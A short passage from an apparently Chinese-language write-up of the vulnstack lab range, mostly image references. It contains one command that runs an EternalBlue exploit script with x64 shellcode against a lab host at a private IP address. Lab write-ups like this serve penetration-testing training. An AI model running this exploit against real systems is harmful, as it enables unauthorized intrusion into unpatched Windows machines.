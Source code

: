 <img src="vulnstack靶场系列四/image-20231218224113553.png" alt="image-20231218224113553" style="zoom:67%;" />	



执行如下命令对目标主机进行永恒之蓝漏洞攻击

```
python2 eternalblue_exploit7.py 192.168.183.129 sc_x64.bin
```

![image-20231218224740315](vulnstack靶场系列四/image-20231218224740315.png)	
